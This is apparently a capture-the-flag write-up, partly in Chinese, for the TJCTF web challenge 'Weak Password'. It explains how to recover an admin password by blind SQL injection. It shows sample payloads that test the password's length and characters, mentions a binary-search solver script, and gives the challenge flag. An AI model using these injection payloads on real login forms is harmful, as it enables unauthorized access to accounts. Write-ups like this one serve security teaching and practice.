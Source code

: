 # Weak Password

Web, 50 Points

Auther: **saisree**

Writeup By: **yctseng1227**

## Description

It seems your login bypass skills are now famous! One of my friends has given you a challenge: figure out his password on this [site](https://weak_password.tjctf.org/). He's told me that his username is admin, and that his password is made of up only lowercase letters and numbers. (Wrap the password with tjctf{...})

![](./01.png)

## Solution

從題目給定`username`為`admin`，以及從`source code`可以看到`SQL語法`以及一些欄位資訊，我們可以猜到這題要用**Blind SQL injection**，一些基本的猜法可以參考[此篇](https://www.twblogs.net/a/5d0d7134bd9eee1ede0450b0)。

![](./02.png)

How to Guess ?

透過`SQL injection`並利用登入結果判斷是否成功，想辦法從`username`撈出我們想要的資訊。

<table align="center" border="0" cellpadding="0" cellspacing="0" style="width: 100%;">
<tbody><tr>
<td>　<img src="./03.png" width="300"/>　</td>
<td>　<img src="./04.png" width="300"/>　</td>
</tr></tbody></table>

例如，猜`password`長度：

`admin' and length(password) > 13 -- ` --> success

`admin' and length(password) > 14 -- ` --> fail

`admin' and length(password) = 14 -- ` --> success

可以猜到`password`長度為14。
<br>

又例如，猜`password`第一個字元：

`admin' and unicode(substr(password, 1)) > unicode('a') -- ` --> success

`admin' and unicode(substr(password, 1)) > unicode('b') -- ` --> fail

`admin' and unicode(substr(password, 1)) = unicode('b') -- ` --> success

可以猜到`password`第一個字元為`b`。

<br>
再來就是寫Code了，可以搭配Binary search加速搜尋~

然後用回傳的request長度判斷結果是否成功。

[solve.py](./solve.py)

### Result

<img src="./05.png" width="500" align="center"/>

> tjctf{blindsqli14519}
